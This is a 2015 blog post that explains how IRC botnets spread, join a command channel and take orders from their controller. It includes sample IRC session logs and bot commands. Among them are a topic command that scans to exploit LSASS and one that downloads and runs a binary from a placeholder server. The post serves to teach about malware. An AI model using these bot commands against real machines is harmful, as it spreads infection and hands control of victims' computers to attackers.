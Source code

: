 ```yaml
---
layout: post
title:  "How Bots and Botnets work"
date:   2015-01-30 10:21:50
categories: anatomy
---
```


This section will in detail explain how bots spread and how they are controlled by their masters.

The term `botnet` is widely used when several IRC bots have been linked and may possibly set channel modes on other bots and users while keeping IRC channels free from unwanted users. 
This is where the term is originally from, since the first illegal botnets were similar to legal botnets.

Botnets sometimes compromise computers whose security defenses have been breached and control conceded to a third party. Each such compromised device, known as a "bot", is created when a computer is penetrated by software from a malware (malicious software) distribution. However, it could also be someone (or a spider) that hacks into a computer. The controller of a botnet is able to direct the activities of these compromised computers through communication channels formed by standards-based network protocols such as IRC, Hypertext Transfer Protocol (HTTP), etc..`[1]`

*Reference* ["Bots &; Botnet: An Overview"](http://www.sans.org/reading-room/whitepapers/malicious/bots-botnet-overview-1299)[1]

After successful exploitation, a bot uses Trivial File Transfer Protocol (TFTP), File Transfer Protocol (FTP), HyperText Transfer Protocol (HTTP), or CSend (an IRC extension to send files to other users, comparable to DCC) to transfer itself to the compromised host. The binary is started, and tries to connect to the hard-coded master IRC server. Often a dynamic DNS name is provided rather than a hard coded IP address, so the bot can be easily relocated. Some bots even remove themselves if the given master server is localhost or in a private subnet, since this indicates an unusual situations. Using a special crafted nickname like EU\|743634 or [UrX]-98439854 the bot tries to join the master's channel, sometimes using a password to keep strangers out of the channel. A typical communication that can be observed after a successful infection looks like:

{% highlight irc %}
<- :irc1.XXXXXX.XXX NOTICE AUTH :*** Looking up your hostname...
<- :irc1.XXXXXX.XXX NOTICE AUTH :*** Found your hostname
-> PASS secretserverpass
-> NICK [urX]-700159
-> USER mltfvt 0 0 :mltfvt
<- :irc1.XXXXXX.XXX NOTICE [urX]-700159 :*** If you are having problems connecting due to ping timeouts, please type /quote pong ED322722 or /raw pong ED322722 now.
<- PING :ED322722
-> PONG :ED322722
<- :irc1.XXXXXX.XXX 001 [urX]-700159 :Welcome to the irc1.XXXXXX.XXX IRC Network [urX]-700159!mltfvt@nicetry
<- :irc1.XXXXXX.XXX 002 [urX]-700159 :Your host is irc1.XXXXXX.XXX, running version Unreal3.2-beta19
<- :irc1.XXXXXX.XXX 003 [urX]-700159 :This server was created Sun Feb  8 18:58:31 2004
<- :irc1.XXXXXX.XXX 004 [urX]-700159 irc1.XXXXXX.XXX Unreal3.2-beta19 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeKVfMGCuzN
{% endhighlight %}

Afterwards, the server accepts the bot as a client and sends him RPL_ISUPPORT, RPL_MOTDSTART, RPL_MOTD, RPL_ENDOFMOTD or ERR_NOMOTD. Replies starting with RPL_ contain information for the client, for example RPL_ISUPPORT tells the client which features the server understands and RPL_MOTD indicates the Message Of The Day (MOTD). In contrast to this, ERR_NOMOTD is an error message if no MOTD is available. 

On RPL_ENDOFMOTD or ERR_NOMOTD, the bot will try to join his master's channel with the provided password:

{% highlight irc %}
-> JOIN #botnet channelpassword
-> MODE [urX]-700159 +x
{% endhighlight %}

The bot receives the topic of the channel and interprets it as a command:
{% highlight irc %}
<- :irc1.XXXXXX.XXX 332 [urX]-700159 #botnet :.advscan lsass 200 5 0 -r -s
<- :[urX]-700159!mltfvt@nicetry JOIN :#botnet
<- :irc1.XXXXXX.XXX MODE #botnet +smntuk channelpassword
{% endhighlight %}
Most botnets use a topic command like:

**1.**	`".advscan lsass 200 5 0 -r -s"`

**2.**	`".http.update http://<server>/~mugenxu/rBot.exe c:\msy32awds.exe 1"`

The first topic tells the bot to spread further with the help of the LSASS vulnerability`[2]`. 200 concurrent threads should scan with a delay of 5 seconds for an unlimited time (parameter 0). The scans should be random (parameter -r) and silent (parameter -s), thus avoiding too much traffic due to status reports. In contrast to this, the second example of a possible topic instructs the bot to download a binary from the web and execute it (parameter 1). And if the topic does not contain any instructions for the bot, then it does nothing but idling in the channel, awaiting commands. That is fundamental for most current bots: They do not spread if they are not told to spread in their master's channel.
Upon successful exploitation the bot will message the owner about it, if it has been advised to do so.

*Reference* [LSASS vulnerability](https://technet.microsoft.com/library/security/ms04-011)[2]

{% highlight irc %}
-> PRIVMSG #botnet :[lsass]: Exploiting IP: 200.124.175.XXX
-> PRIVMSG #botnet :[TFTP]: File transfer started to IP: 200.124.175.XXX (C:\WINDOWS\System32\NAV.exe).
{% endhighlight %}

Then the IRC server (also called IRC daemon, abbreviated IRCd) will provide the channels userlist. But most botnet owners have modified the IRCd to just send the channel operators to save traffic and disguise the number of bots in the channel.

{% highlight irc %}
<- :irc1.XXXXXX.XXX 353 [urX]-700159 @ #botnet :@JAH
<- :irc1.XXXXXX.XXX 366 [urX]-700159 #botnet :End of /NAMES list.
<- :irc1.XXXXXX.XXX NOTICE [urX]-700159 :BOTMOTD File not found
<- :[urX]-700159 MODE [urX]-700159 :+x
{% endhighlight %}

The controller of a botnet has to authenticate himself to take control over the bots. This authentication is done with the help of a command prefix and the "auth" command. The command prefix is used to login the master on the bots and afterwards he has to authenticate himself. For example,

{% highlight irc %}
.login leet0
.la plmp -s
{% endhighlight %}


are commands used on different bots to approve the controller. Again, the "-s" switch in the last example tells the bots to be silent when authenticating their master. Else they reply something like

{% highlight irc %}
[MAIN]: Password accepted.
[r[X]-Sh0[x]]: .:( Password Acepted ):. .
{% endhighlight %}

which can be a lot of traffic if you have 10,000 bots on your network. Once an attacker is authenticated, they can do whatever they want with the bots: Searching for sensitive information on all compromised machines and DCC-sending these files to another machine, DDoS-ing individuals or organizations, or enabling a keylogger and looking for PayPal or eBay account information. These are just a few possible commands, other options have been presented in the previous section. The IRC server that is used to connect all bots is in most cases a compromised box. This is probably because an attacker would not receive operator-rights on a normal chat network and thus has to set-up their own IRC server which offers more flexibility.

Two different IRC servers software implementation are commonly used to run a botnet: Unreal IRCd and ConferenceRoom:

* **Unreal IRCd`[3]`**

	It's cross-platform and can thus be used to easily link machines running Windows and Linux. The IRC server software is stripped down and modified to fit the botnet owner’s needs.
	Common modifications we have noticed are stripping "JOIN", "PART" and "QUIT" messages on channels to avoid unnecessary traffic. In addition, the messages "LUSERS" (information about number of connected clients) and "RPL_ISUPPORT" are removed to hide identity and botnet size. 
	Size comes in great value given that botnet with over 80k+ bots are used by cyber criminals for "professional" attacks probably being to most profitable of uses for botnets, also the riskier. These kind of networks can cause severe damage since they offer a lot of bandwidth and many targets for identity theft.
	
	*Reference*: [Unreal IRCd](http://www.unrealircd.com/)[3]

* **ConferenceRoom`[4]`**

	It's a commercial IRCd solution, but people who run botnets typically use a cracked version. ConferenceRoom offers the possibility of several thousand simultaneous connections, with nickname and channel registration, buddy lists and server to server linking.
	Since the people who run botnets often share the same motives (DDoS attacks or other crimes) every bot family has its own set of commands to implement the same goals. Agobot is really nice here: Just grep the source for RegisterCommand and get the whole command-list with a complete description of all features. Due to the lack of clean design, the whole SDBot family is harder to analyse. Often the command set is changed in various forks of the same bot and thus an automated analysis of the implemented commands is nearly impossible. 

	*Reference*: [ConferenceRoom](http://www.webmaster.com/) [4]
	
Botnets are increasingly rented out by cyber criminals as commodities for a variety of purposes.`[5]`

*Reference* ["Novice cyberciminals offer commercial access to five mini botnets"](http://www.webroot.com/blog/2013/10/11/novice-cyberciminals-offer-commercial-access-5-mini-botnets/)[5]
